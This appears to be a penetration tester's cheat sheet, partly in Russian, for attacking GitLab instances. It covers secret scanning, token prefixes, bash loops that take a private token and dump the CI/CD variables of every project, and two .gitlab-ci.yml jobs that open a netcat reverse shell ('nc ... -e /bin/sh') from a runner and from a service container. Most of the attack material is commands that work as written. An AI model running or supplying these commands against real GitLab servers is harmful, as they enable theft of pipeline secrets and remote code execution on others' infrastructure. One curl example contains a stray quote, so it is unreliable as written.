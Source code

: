 ```yaml
---
description: Gitlab checks
---
```


# Gitlab

### Search for secrets

{% embed url="https://github.com/praetorian-inc/noseyparker" %}

```bash
#Scan repo
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest scan .
#Get results
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest report
```

### Reconnaissance

{% embed url="https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/" %}

### Check public repositories

```bash
curl "https://gitlab.com/api/v4/projects?visibility=public&per_page=100"" | jq '.[] | {name, path, web_url}'
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

**Route `/explore` allow to go behind the login panel**

### Abusing GitLab token

### Token prefixes

The following table shows the prefixes for each type of token.

| Token name                        | Prefix                                                                                                                                                                                                                                                                                                                                                                                                   |
| --------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Personal access token             | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| OAuth Application Secret          | `gloas-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Impersonation token               | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Project access token              | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Group access token                | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Deploy token                      | `gldt-` ([Added in GitLab 16.7](https://gitlab.com/gitlab-org/gitlab/-/issues/376752))                                                                                                                                                                                                                                                                                                                   |
| Runner authentication token       | `glrt-` or `glrtr-` if created via registration token                                                                                                                                                                                                                                                                                                                                                    |
| CI/CD Job token                   | <p><code>glcbt-</code><br>• (<a href="https://gitlab.com/gitlab-org/gitlab/-/issues/426137">Introduced</a> in GitLab 16.8 behind a feature flag named <code>prefix_ci_build_tokens</code>. Disabled by default.)<br>• (<a href="https://gitlab.com/gitlab-com/gl-infra/production/-/issues/17299">Generally available</a> in GitLab 16.9. Feature flag <code>prefix_ci_build_tokens</code> removed.)</p> |
| Trigger token                     | `glptt-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Feed token                        | `glft-`                                                                                                                                                                                                                                                                                                                                                                                                  |
| Incoming mail token               | `glimt-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| GitLab agent for Kubernetes token | `glagent-`                                                                                                                                                                                                                                                                                                                                                                                               |
| GitLab session cookies            | `_gitlab_session=`                                                                                                                                                                                                                                                                                                                                                                                       |
| SCIM Tokens                       | <p><code>glsoat-</code><br>• (<a href="https://gitlab.com/gitlab-org/gitlab/-/issues/435096">Introduced</a> in GitLab 16.8 behind a feature flag named <code>prefix_scim_tokens</code>. Disabled by default.)<br>• (<a href="https://gitlab.com/gitlab-org/gitlab/-/issues/435423">Generally available</a> in GitLab 16.9. Feature flag <code>prefix_scim_tokens</code> removed.)</p>                    |
| Feature Flags Client token        | `glffct-`                                                                                                                                                                                                                                                                                                                                                                                                |

#### Get variables from projects

define count pages and replace max page in seq. First take all projects id

```bash
for page in $(seq 0 110); do echo $page && curl -s --header "PRIVATE-TOKEN: <token>" "https://gitlab.example.com/api/v4/projects?per_page=100&page=$page" | jq ".[].id" >> gitlab-ids.txt; done
```

Then try get var

```bash
while IFS='' read -r LINE || [ -n "${LINE}" ]; do url="https://gitlab.example.com/api/v4/projects/$LINE"; vars=$(curl -s --header 'PRIVATE-TOKEN: token' $url/variables); [ ${#vars} -gt 5 ] && echo $vars > .tempvars && curl -s --header 'PRIVATE-TOKEN: token' $url | jq --slurpfile v .tempvars '{id: .id, git: .http_url_to_repo, vars: $v[0]}' >> gitlab-vars.txt; done <gitlab-ids.txt
```

Also try get gitlab-group vars (мне пока лень)

### Abusing GitLab Runners

{% embed url="https://frichetten.com/blog/abusing-gitlab-runners/" %}

Script for steal tasks by requesting them faster than a real runner - [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)



### Check projects access level&#x20;

```bash
curl --header "PRIVATE-TOKEN: <token>" "https://gitlab.com/api/v4/projects?membership=true&per_page=100"
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

```json
[
  {
    "id": 123,
    "name": "my-repo",
    "path": "my-repo",
    "permissions": {
      "project_access": {
        "access_level": 30  # 30 = Developer
      },
      "group_access": null
    }
  }
]
```

**Уровни доступа:**

* `10` — Guest (только чтение)
* `20` — Reporter (чтение + доступ к CI/CD)
* `30` — Developer (чтение + запись + запуск CI/CD)
* `40` — Maintainer (полный доступ, кроме удаления проекта)
* `50` — Owner (полный доступ)



### CI Abuse

**Exec code in runner**

```yaml
stages:
  - build
  
build-job:
  image: 
    name: python:3.11-alpine
  stage: build
  script:
    - nc 192.168.1.1 1337 -e /bin/sh
  tags:
    - runner-tag                        #Check tags of runners in project settings
```



**Exec code in runner service**

_Services can also have privileged containers_

```yaml
stages:
  - build

build-job:
  image: docker:28.0.4-dind-alpine3.21
  services:
    - name: docker:28.0.4-dind-alpine3.21
      alias: docker
      command: ["nc", "192.168.1.1", "1337", "-e", "/bin/sh"]
  variables:
    DOCKER_HOST: tcp://docker:2375
    DOCKER_TLS_CERTDIR: ""        
  stage: build
  script:
    - echo waiting && sleep 999999999
  tags:
    - runner-tag                   #Check tags of runners in project settings
```
